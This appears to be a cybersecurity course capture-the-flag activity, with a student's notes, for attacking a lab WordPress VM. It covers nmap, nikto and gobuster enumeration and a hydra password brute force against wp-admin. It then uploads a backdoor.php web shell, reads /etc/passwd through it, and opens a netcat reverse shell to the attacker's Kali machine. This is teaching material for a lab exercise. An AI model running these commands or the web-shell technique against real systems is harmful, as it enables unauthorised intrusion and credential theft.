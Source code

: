 ## Activity File: Attacking Target 2 (Optional)


Please note, **attacking Target 2 is not required**. It is included as an additional challenge if you are interested in assessing a more complex web application. Before attempting this challenge, make sure you complete the Wireshark analysis.

Target 2 exposes the same WordPress site as Target 1, but with better security hardening. Therefore, it must be exploited differently than Target 1. 

The steps for completing this assessment are enumerated below. All details required to capture the first three flags on Target 2 are included.


### Instructions

Target 2's IP Address: `192.168.1.115`

1. Use Nmap to identify the IP address of Target 2.

![netdiscover](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/1NETDISCOVERFORMACHINES.jpg)

2. Use Nmap to document all exposed ports and services at this IP address.

![nmapSS](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/2NMAPSSTARGET2.jpg)

3. Enumerate the web server with `nikto`.
    - **Hint**: Run: `nikto -C all -h <URL>`
    - **Note**: This creates a list of URLs the Target HTTP server exposes. What kind of website is this VM running?
    
![nikto](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/4NIKTOSCAN.jpg)

4. Perform a more in-depth enumeration with `gobuster`.
    - **Hint**
      - Install `gobuster` using `apt`
      
   ### First, run...
   
      `sudo apt-get update`
     
    ### Then run...
            
                 `sudo apt-get install gobuster`
      
      - Run `gobuster -w /path/to/wordlist dir -u <URL>`
        
      - Use `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` as your wordlist (`-w`).
      - Pay attention to the `/vendor` directory. There may be a `flag` in there...

### It appears that the directories available are /img, /css, /wordpress, /manual, /js, /vendor. Since I was directed to the /vendor directory, we ran this: 
    `gobuster dir -u http://192.168.1.115/vendor -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

Then...I started snooping around and ran gobuster against the different directories.  My goal was to get user credentials for a sign on. I ended up finding the http://192.168.1.115/wordpress/wp-admin/user directory through gobuster.  Then I GUESSED that one of the users would have the username: admin. Then I ran:
`hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.115 http-get /wordpress/wp-admin/user`

It worked... user: admin password:12345 
I also searched for passwords for michael:12345, steven:password, and root:12345
THIS MEANS NOTHING!!! I put in a random user and it also resulted in password 12345.


5. Use searchsploit to find any known vulnerabilities associated with the programs found in Step #4.
    **Hint**: Run `searchsploit -h`
    
    `searchsploit -u` to update
    `searchsploit open ssh`
    `searchsploit wordpress`
    

6. Use the provided script `exploit.sh` to exploit this vulnerability by opening an Ncat connection to your Kali VM.

    - Edit the line at the top of the script that sets the `TARGET` variable. Set it equal to the IP address of Target 2.

    - Run the script. It uploads a file called `backdoor.php` to the target server. This file can be used to execute command injection attacks.

    - Navigate to: `http://<Target 2 URL>/backdoor.php?cmd=<CMD>`
      - This allows you to run bash commands on Target 2.
      - For example, try: `http://<Target 2 URL>/backdoor.php?cmd=cat%20/etc/passwd`

    - Next, use the backdoor to open a shell session on the target.

      - On your **Kali** VM, start a netcat listener: `nc -lnvp 4444`
      - In the browser, use the backdoor to run: `nc <Kali IP> 4444 -e /bin/bash`. For example, your query string will look like `cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash`.

7. Using the shell you've opened on `Target 2`, find a `flag` in `/var/www`.

8. Next, find a flag in the WordPress uploads directory.

    - **Hint**: Use the `find` command: `find /var/www -type f -iname 'flag*'`

9. If you find all three flags -- congratulations! There is a fourth, but escalating to `root` is extremely difficult: For now, move on to completing a report about Target 2.

---

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
